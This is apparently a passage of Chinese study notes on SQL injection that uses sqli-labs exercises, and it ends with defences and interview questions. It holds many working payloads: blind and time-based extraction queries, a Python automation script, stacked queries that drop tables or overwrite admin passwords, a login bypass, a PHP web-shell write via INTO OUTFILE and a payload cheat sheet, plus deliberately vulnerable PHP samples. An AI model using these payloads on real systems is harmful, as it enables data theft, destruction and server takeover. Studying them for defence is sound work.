> 
>
> *当猜测长度为8时*
>
> 
>
> *说明：length=7时页面异常，length=8时页面正常，确认数据库名长度为8*

### 5.4 逐位猜测数据库名

```
?id=1' AND ascii(substr(database(),1,1))=115--+   -- s (ascii=115)
?id=1' AND ascii(substr(database(),2,1))=101--+   -- e (ascii=101)
?id=1' AND ascii(substr(database(),3,1))=99--+    -- c (ascii=99)
?id=1' AND ascii(substr(database(),4,1))=117--+   -- u (ascii=117)
?id=1' AND ascii(substr(database(),5,1))=114--+   -- r (ascii=114)
?id=1' AND ascii(substr(database(),6,1))=105--+   -- i (ascii=105)
?id=1' AND ascii(substr(database(),7,1))=116--+   -- t (ascii=116)
?id=1' AND ascii(substr(database(),8,1))=121--+   -- y (ascii=121)
```

**结果：** `security`

> *首位字母为s时，页面正常显示*
>
> 
>
> *依次尝试其他位数的字母，当页面正常显示时，则该字母正确*
>
> *说明：通过对比True/False页面差异，逐位猜解数据库名*

### 5.5 常用函数

| 函数 | 作用 |
|------|------|
| `length(str)` | 返回字符串长度 |
| `substr(str,pos,len)` | 截取字符串，从pos开始取len个字符 |
| `mid(str,pos,len)` | 同substr |
| `ascii(char)` | 返回字符的ASCII码 |
| `ord(char)` | 同ascii |
| `left(str,len)` | 从左取len个字符 |
| `right(str,len)` | 从右取len个字符 |

### 5.6 二分法优化

不用逐个试，用 `<` `>` 缩小范围：

```
?id=1' AND ascii(substr(database(),1,1))>100--+   -- 真，说明>100
?id=1' AND ascii(substr(database(),1,1))>120--+   -- 假，说明<=120
?id=1' AND ascii(substr(database(),1,1))>110--+   -- 真
?id=1' AND ascii(substr(database(),1,1))>115--+   -- 假
?id=1' AND ascii(substr(database(),1,1))=115--+    -- 真，=115='s'
```



*设ASCII值>100,结果为真，说明>100*



*设ASCII值<120,结果为真，说明<120*

**效率：** 8次请求确定1个字符，比逐个试快得多。

---

## 六、时间盲注

### 6.1 适用条件

- ❌ 无回显（不显示查询结果）
- ❌ 无报错（不显示错误信息）
- ❌ 页面无差异（True和False页面完全一样）
- ✅ 只能通过**响应时间**判断

### 6.2 原理

利用 `IF(condition, true_value, false_value)` 和 `SLEEP(n)`：

- 条件为真 → 执行 `SLEEP(5)` → 页面延迟5秒
- 条件为假 → 执行 `0` → 页面立即返回

### 6.3 判断数据库名长度（sqli-labs Less-9）

```
?id=1' AND IF(length(database())=8,SLEEP(5),0)--+
```

**观察：** 如果页面延迟5秒，说明 `length(database())=8` 为真。

> 
> *说明：使用BurpSuite或浏览器开发者工具观察响应时间，延迟5秒说明条件为真*

### 6.4 逐位猜测数据库名

```
?id=1' AND IF(ascii(substr(database(),1,1))=115,SLEEP(5),0)--+
?id=1' AND IF(ascii(substr(database(),2,1))=101,SLEEP(5),0)--+
```

### 6.5 常用时间函数

| 函数 | 作用 | 例子 |
|------|------|------|
| `SLEEP(n)` | 延迟n秒 | `SLEEP(5)` |
| `BENCHMARK(count,expr)` | 重复执行表达式 | `BENCHMARK(10000000,MD5(1))` |
| `IF(cond,t,f)` | 条件判断 | `IF(1=1,SLEEP(5),0)` |
| `CASE WHEN` | 多条件判断 | `CASE WHEN 1=1 THEN SLEEP(5) ELSE 0 END` |

### 6.6 时间盲注脚本（Python）

```python
import requests
import time

url = "http://target/Less-9/"
result = ""

for i in range(1, 9):  # 假设数据库名8位
    for ascii_code in range(32, 127):
        payload = f"?id=1' AND IF(ascii(substr(database(),{i},1))={ascii_code},SLEEP(2),0)--+"
        start = time.time()
        requests.get(url + payload)
        if time.time() - start > 2:
            result += chr(ascii_code)
            print(f"第{i}位: {chr(ascii_code)}")
            break

print(f"数据库名: {result}")
```

*说明：时间盲注手工太慢，实际工作中会写 Python 脚本,自动化运行结果，逐位猜解数据库名*

---

## 七、堆叠注入

### 7.1 适用条件

- 数据库支持**多条语句执行**
- MySQL中 `mysqli_multi_query()` 或 PDO的 `multi_query`
- 普通 `mysql_query()` 不支持

### 7.2 原理

用 `;` 结束当前SQL语句，执行新的SQL语句。

### 7.3 Payload

```
?id=1'; DROP TABLE users;--+
?id=1'; INSERT INTO users VALUES(99,'hacker','hack123');--+
?id=1'; UPDATE users SET password='hacked' WHERE username='admin';--+
```





**实际SQL：**

```sql
SELECT * FROM users WHERE id='1'; DROP TABLE users;--+' LIMIT 0,1
```

### 7.4 危害

| 操作 | Payload |
|------|---------|
| 删库 | `; DROP DATABASE security;--+` |
| 删表 | `; DROP TABLE users;--+` |
| 加用户 | `; INSERT INTO users VALUES(99,'hacker','pass');--+` |
| 改密码 | `; UPDATE users SET password='123' WHERE username='admin';--+` |
| 写Shell | `; SELECT '<?php @eval($_POST[1]);?>' INTO OUTFILE '/var/www/html/shell.php';--+` |

### 7.5 防御难点

预处理语句默认不支持多条语句，但某些配置下可能绕过。

---

## 八、POST注入

### 8.1 后端代码

```php
<?php
$username = $_POST['username'];
$password = $_POST['password'];

$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysql_query($sql);

if ($row = mysql_fetch_array($result)) {
    echo "登录成功";
} else {
    echo "登录失败";
}
?>
```

### 8.2 注入Payload

#### 万能密码（绕过登录）

```
username: admin'#
password: 任意
```

**实际SQL：**
```sql
SELECT * FROM users WHERE username='admin'#' AND password='任意'
-- #注释掉后面的密码验证，只验证用户名
```

> 
> *说明：使用BurpSuite拦截POST请求，修改参数实现万能密码登录*

#### Union注入

```
username: admin' UNION SELECT 1,2,3#
password: 任意
```

#### 报错注入

```
username: admin' AND extractvalue(1,concat(0x7e,(SELECT database())))#
password: 任意
```

### 8.3 与GET注入的区别

| 对比 | GET注入 | POST注入 |
|------|---------|---------|
| 参数位置 | URL中 | Body中 |
| 可见性 | 浏览器地址栏可见 | 需抓包才能看到 |
| 长度限制 | URL有长度限制 | Body长度限制大 |
| 工具 | 直接改URL | 用BurpSuite、HackBar |
| 日志记录 | 会记录在访问日志 | 通常不记录 |

---

## 九、Cookie/Header注入

### 9.1 Cookie注入

#### 后端代码

```php
<?php
$id = $_COOKIE['id'];
$sql = "SELECT * FROM users WHERE id='$id'";
?>
```

#### 注入方法

用BurpSuite拦截请求，修改Cookie：
```
Cookie: id=1' UNION SELECT 1,database(),version()--+
```

*说明：BurpSuite Repeater中修改Cookie字段实现注入*

### 9.2 Header注入（User-Agent）

#### 后端代码

```php
<?php
$ua = $_SERVER['HTTP_USER_AGENT'];
$sql = "INSERT INTO logs (user_agent) VALUES ('$ua')";
?>
```

#### 注入Payload

用BurpSuite修改User-Agent：
```
User-Agent: ' OR '1'='1
User-Agent: ',(SELECT database()))--+
```

---

## 十、宽字节注入

### 10.1 原理

**GBK编码**中，两个字节组成一个汉字：
- `%df` + `%5c`（`\`）= `運`

**后端代码：**
```php
<?php
$id = addslashes($_GET['id']);  // 1' → 1'
$sql = "SELECT * FROM users WHERE id='$id'";
-- 实际SQL：SELECT * FROM users WHERE id='1''
?>
```

**宽字节Payload：**
```
?id=1%df%27
```

**解码过程：**
1. `%df` + `%5c`（`\`）= GBK汉字 `運`
2. 吃掉转义符 `\`
3. 剩下的 `%27` = `'` 成功注入

**实际SQL：**
```sql
SELECT * FROM users WHERE id='1運' UNION SELECT...'
```

*说明：使用%df吃掉转义符，实现单引号逃逸*

### 10.2 防御

使用预处理语句，或设置连接字符集为UTF-8：
```php
mysql_set_charset('utf8');
```

---

## 十一、SQL注入防御

### 11.1 最佳实践：预处理语句（参数化查询）

```php
<?php
// PDO
$pdo = new PDO('mysql:host=localhost;dbname=test', 'root', 'root');
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
$stmt->bindParam(':id', $_GET['id'], PDO::PARAM_INT);
$stmt->execute();

// mysqli
$mysqli = new mysqli("localhost", "root", "root", "test");
$stmt = $mysqli->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $_GET['id']);
$stmt->execute();
?>
```

**为什么预处理能防御？**

1. SQL语句先被数据库**预编译**
2. 用户输入作为**纯数据**绑定进去
3. 数据库知道这是数据不是代码
4. 即使输入 `1' UNION SELECT` 也会被当作字符串处理

### 11.2 其他防御方法

| 方法 | 原理 | 推荐度 |
|------|------|--------|
| **预处理语句** | 参数化查询，代码数据分离 | ⭐⭐⭐⭐⭐ |
| **ORM框架** | Laravel Eloquent、Django ORM | ⭐⭐⭐⭐ |
| **输入过滤** | 黑名单过滤危险字符 | ⭐⭐（易绕过） |
| **转义函数** | `mysql_real_escape_string()` | ⭐⭐（宽字节可绕） |
| **WAF** | Web应用防火墙 | ⭐⭐（辅助，不能替代代码层防御） |
| **最小权限** | 数据库用户只给必要权限 | ⭐⭐⭐⭐ |

### 11.3 危险函数黑名单（不推荐单独使用）

```php
// 过滤危险字符（不推荐单独使用）
$blacklist = array('union', 'select', 'insert', 'update', 'delete', 'drop', 'sleep', 'benchmark');
foreach ($blacklist as $word) {
    if (stripos($input, $word) !== false) {
        die('非法输入');
    }
}
```

**绕过方法：** 大小写、双写、编码、注释穿插

---

## 十二、面试高频问题

### Q1：什么是SQL注入？

> SQL注入是指攻击者将恶意SQL代码插入到应用程序的查询中，使数据库执行非预期的操作。根本原因是用户输入被直接拼接到SQL语句中，没有区分代码和数据。

### Q2：SQL注入有哪些类型？

> 按回显情况分：Union注入、报错注入、布尔盲注、时间盲注。按数据类型分：字符型、数字型、搜索型。按位置分：GET、POST、Cookie、Header。高级类型：堆叠注入、宽字节注入、二次注入。

### Q3：Union注入的步骤？

> 1. 确认注入点（单引号测试）
> 2. 判断字段数（ORDER BY）
> 3. 找显示位（UNION SELECT 1,2,3）
> 4. 查数据库名和版本（database(), version()）
> 5. 查表名（information_schema.tables）
> 6. 查列名（information_schema.columns）
> 7. 提取数据（UNION SELECT ... FROM users）

### Q4：为什么用 `id=-1`？

> UNION合并结果后页面只显示第一行。id=1时原查询有结果，Union数据被覆盖；id=-1时原查询无结果，Union数据才能显示出来。

### Q5：`--+` 是什么？

> `--` 是MySQL注释，后面必须跟空格才生效。`+` 在URL中被解码为空格，所以 `--+` 变成有效的 `--[空格]`。

### Q6：布尔盲注和时间盲注的区别？

> 布尔盲注：页面有差异（True显示内容，False不显示），通过页面变化判断。时间盲注：页面完全无差异，通过SLEEP延迟时间判断。

### Q7：报错注入的原理？

> 利用MySQL函数的特性，如extractvalue和updatexml的第二个参数需要合法XPath，传入非法路径会报错，报错信息中带入查询结果。

### Q8：如何防御SQL注入？

> 最佳方案是使用预处理语句（Prepared Statements），将SQL语句和用户输入分离。数据库先编译SQL，再将输入作为纯数据绑定，即使输入恶意代码也不会被执行。

### Q9：预处理语句为什么能防注入？

> 因为SQL语句先被预编译，用户输入作为参数绑定进去，数据库知道这部分是数据不是代码。即使输入 `1' UNION SELECT` 也会被当作字符串处理，不会破坏SQL结构。

### Q10：宽字节注入原理？

> 后端使用addslashes转义单引号（`'` → `'`），但在GBK编码下，`%df` + `%5c`（`\`）组成汉字`運`，吃掉转义符，使后面的单引号成功逃逸。

### Q11：堆叠注入是什么？

> 用分号`;`结束当前SQL语句，执行新的SQL语句。如 `; DROP TABLE users;`。需要数据库支持多语句执行。

### Q12：SQLMap的 `--tamper` 是什么？

> Tamper脚本是SQLMap的绕过脚本，用于修改Payload绕过WAF。如 `space2comment.py` 把空格换成注释，`base64encode.py` 做Base64编码。

### Q13：MySQL 5.0以下没有information_schema怎么办？

> 5.0以下没有information_schema，需要猜表名和列名。可以用 `load_file()` 读取数据库文件，或通过暴力枚举常用表名。

### Q14：POST注入和GET注入的区别？

> GET参数在URL中，长度受限，会记录在日志；POST参数在Body中，长度限制小，通常不记录日志。利用方式相同，只是参数位置不同。

### Q15：二次注入是什么？

> 攻击者将恶意数据存入数据库（如注册用户名），当系统再次使用该数据时触发注入。如注册 `admin'#`，修改密码时变成修改admin的密码。

---

## 附录：常用Payload速查表

### Union注入

```
?id=-1' UNION SELECT 1,2,3--+
?id=-1' UNION SELECT 1,database(),version()--+
?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()--+
?id=-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users' AND table_schema=database()--+
?id=-1' UNION SELECT 1,group_concat(username,':',password),3 FROM users--+
```

### 报错注入

```
?id=1' AND extractvalue(1,concat(0x7e,(SELECT database())))--+
?id=1' AND updatexml(1,concat(0x7e,(SELECT database())),1)--+
?id=1' AND (SELECT 1 FROM (SELECT count(*),concat((SELECT database()),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)--+
```

### 布尔盲注

```
?id=1' AND length(database())=8--+
?id=1' AND ascii(substr(database(),1,1))=115--+
?id=1' AND ascii(substr((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),1,1))=101--+
```

### 时间盲注

```
?id=1' AND IF(length(database())=8,SLEEP(5),0)--+
?id=1' AND IF(ascii(substr(database(),1,1))=115,SLEEP(5),0)--+
?id=1' AND IF(ascii(substr((SELECT password FROM users WHERE username='admin' LIMIT 0,1),1,1))=97,SLEEP(5),0)--+
```

### 堆叠注入

```
?id=1'; DROP TABLE users;--+
?id=1'; INSERT INTO users VALUES(99,'hacker','pass');--+
?id=1'; SELECT '<?php @eval($_POST[1]);?>' INTO OUTFILE '/var/www/html/shell.php';--+
```

---

